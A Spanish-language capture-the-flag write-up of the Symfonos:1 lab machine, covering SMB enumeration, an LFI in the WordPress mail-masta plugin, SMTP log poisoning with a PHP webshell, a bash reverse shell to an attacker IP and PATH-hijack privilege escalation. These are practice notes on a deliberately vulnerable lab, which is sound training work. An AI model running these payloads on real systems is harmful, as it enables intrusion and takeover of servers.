# Symfonos:1

192.168.1.133





OpenSSH: Ubuntu sid / Apache: Stretch ¿?

Gobuster



Encontramos un manual que parece no tener mucha info

Intento fuzzear subdominios con ffuf -> **NADA**

Intentamos hacer esteganografía con la imagen principal
https://commons.wikimedia.org/wiki/File:Peter_Paul_Rubens_-_The_Fall_of_Phaeton_(National_Gallery_of_Art).jpg
No puedo extraer **NADA** a simple vista

Intento tirar por puertos 139 o 445 smbd
```bash
enum4linux -a 192.168.1.133
```

Parece que existe un usuario helios



No consigo acceder

Importante añadir el Host que aporta nmap `symfonos.localdomain`

Hacemos un escaneo de recursos compartidos con *smbmap*
```bash
smbmap -H 192.168.1.133
```



Hay un recurso anonymous al que podemos acceder
```bash
smbclient //192.168.1.133/anonymous
```

Existe un *attention.txt*
```bash
get attention.txt
```

Posibles contraseñas: **epidioko** **qwerty** **baseball**
Y un posible usuario zeus

intentamos acceder ahora a smb con el usuario helios
```bash
smbclient //192.168.1.133/helios -U helios
```

accedemos con **qwerty**



En *todo.txt* encontramos un posible directorio /h3l105
Encontramos un wordpress 5.2.2

Añadimos el host symfonos.local a la misma ip
Encontramos un posible usuario llamado admin -> Corroborado por wp-login.php
Además de confirmarlo con wpscan
```bash
wpscan --url http://symfonos.local/h3l105 --enumerate u
```



Gobuster



Fuzzeando los distintos directorios no encuentro nada interesante:

código para enumerar plugins de wordpress
```bash
curl http://symfonos.local/h3l105/ | grep 'wp-content'
```

Encontramos un plugin potencialmente vulnerable *mail-masta*
https://www.exploit-db.com/exploits/40290
Vemos que se puede explotar un LFI
El exploit es:
`http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`
Nuestro caso:
`http://192.168.1.133/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`
Vemos el contenido de /etc/passwd, y confirmamos el usuario helios



Con un LFI se puede hacer *log poisoning* apuntando a logs de Apache, logs de SSH o en nuestro caso contra logs de smtp del puerto 25
- Podremos colar un código malicioso en php con netcat al puerto 25
```bash
nc 192.168.1.133 25
```

Enviaremos un mail desde dentro del servicio smtp
```bash
MAIL FROM: qarlg@test.es
```

```bash
RCPT TO: helios
```

(tiene que ser un usuario existente en la máquina víctima)
```bash
DATA
<?php system($_GET['cmd']) ?>
```

```bash
.
```

(para salir)



Hay que llegar a la ubicación donde se guarda el mail
`/var/mail/'user'` o `/var/spool/mail/'usuario'`
En este caso
`/var/mail/helios&cmd=whoami`
Nos muestra por consola el resultado **helios**
En lugar de escribir *whoami*, escribimos una revshell urlencodeando los ampersand
`bash -c 'bash -i >%26/dev/tcp/192.168.1.249/4444 0>%261'`
La url completa quedaría
`http://192.168.1.133/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=bash%20-c%20%27bash%20-i%20%3E%26/dev/tcp/192.168.1.249/4444%200%3E%261%27`
**www-data**

## Escalada

Existe un binario sospechoso con SUID */opt/statuscheck*



Este binario parece que ejecuta el comando *curl*, de hecho lo confirmamos con
```bash
strings /opt/statuscheck
```



Podremos hacer un Path Hijacking si el binario no llama a la función curl desde la raiz
Nos creamos un ejecutable en /tmp que se llame *curl* con el código
```bash
bash -p
chmod +x /tmp/curl
```

Añadimos la dirección de nuestro ejecutable a la variable $PATH
```bash
export PATH=/tmp:$PATH
```

Ejecutamos el programa
```bash
./opt/statuscheck
```

**root**


